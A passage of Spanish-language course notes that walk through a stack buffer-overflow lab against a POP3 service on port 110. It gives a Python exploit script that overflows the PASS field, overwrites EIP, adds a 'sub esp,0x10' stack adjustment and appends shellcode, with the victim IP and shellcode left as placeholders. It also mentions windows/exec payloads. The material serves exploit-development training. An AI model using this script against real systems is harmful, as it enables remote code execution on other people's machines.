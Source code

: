 si nos ponemos en escucha y lanzamos el script logramos ganar acceso al sistema

![[Pasted image 20231020100919.png]]
_______________________________
Aplicando desplazamiento de la pila

```sh
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

sub esp,0x10
```
![[Pasted image 20231020101235.png]]

```
\x83\xEC\x10
```

editamos el script y antes del **shellcode** agregamos lo anterior obtenido

```python
#!/usr/bin/python3

from struct import pack
import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L",<direccion_modulo>)
shellcode = (b<shellcode>)

payload = before_eip + eip + b"\x83\xEC\x10" + shellcode

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```

Lanzamos el script y obtenemos acceso

![[Pasted image 20231020101629.png]]
_______________________________
**Modificación del Shellcode para controlar el comando que se desea ejecutar**
_____________________________________
Además de los payloads que se han utilizado en las clases anteriores, también es posible utilizar payloads como “**windows/exec**” para cargar directamente el comando que se desea ejecutar en la variable **CMD** del payload. Esto permite crear un nuevo shellcode que, una vez interpretado, ejecutará directamente la instrucción deseada.
